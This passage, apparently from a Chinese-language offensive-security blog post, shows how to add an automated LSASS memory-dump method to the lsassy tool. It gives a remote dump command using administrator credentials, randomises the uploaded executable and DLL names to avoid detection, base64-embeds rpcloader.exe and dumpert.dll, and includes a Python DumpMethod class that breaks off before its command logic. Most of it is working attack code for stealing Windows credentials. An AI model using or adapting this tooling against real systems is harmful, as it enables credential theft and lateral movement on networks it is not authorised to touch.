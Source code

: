 上传的文件可以使用随机名称，代码`self.loader = Dependency("rpcloader", "rpc.exe")`
可修改为`self.loader = Dependency("rpcloader", ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(8)) + ".exe")`，代码`self.dll = Dependency("dll", "rpc.dll")`可修改为`self.dll = Dependency("dll", ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(8)) + ".dll")`

测试命令：

```
lsassy -u Administrator -p Password1 192.168.1.1 -m rawrpc -O rpcloader_path=c:\test\rpcloader.exe,dll_path=c:\test\dumpert.dll
```

该方法会将本地的`c:\test\rpcloader.exe`和`c:\test\dumpert.dll`复制到远程主机并命名为`c:\windows\temp\rpc.exe`和`c:\windows\temp\rpc.dll`，将lsass进程的dump文件保存为`c:\windows\temp\dumpert.dmp`

### 2.添加一个全自动的dump方法

为了使以上整个过程自动化，这里可以选择将exe和dll文件作base64编码保存在变量中

base64编码的实现代码：

```
import base64
with open("rpcloader.exe", 'rb') as fr:
    content = fr.read()
    data1 = base64.b64encode(content).decode('utf8')  
with open("rpcloader-base64.txt", "w") as fw:
    fw.write(data1)
with open("dumpert.dll", 'rb') as fr:
    content = fr.read()
    data1 = base64.b64encode(content).decode('utf8')  
with open("dumpert-base64.txt", "w") as fw:
    fw.write(data1)
```

将生成rpcloader-base64.txt和dumpert-base64.txt替换以下代码中的`<base64>`

```
import base64
import random
import string

from lsassy.dumpmethod import IDumpMethod, Dependency

class DumpMethod(IDumpMethod):
    custom_dump_path_support = False
    custom_dump_name_support = False

    dump_name = "dumpert.dmp"
    dump_share = "C$"
    dump_path = "\\Windows\\Temp\\"

    def __init__(self, session, timeout):
        super().__init__(session, timeout)
        self.loader = Dependency("rpcloader", ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(8)) + ".exe")
        self.loader.content = base64.b64decode("<base64>")
        self.dll = Dependency("dll", ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(8)) + ".dll")
        self.dll.content = base64.b64decode("<base64>")

    def prepare(self, options):
        return self.prepare_dependencies(options, [self.loader, self.dll])

    def clean(self):
        self.clean_dependencies([self.loader, self.dll])

    def get_commands(self, dump_path=None, dump_name=None, no_powershell=False):
```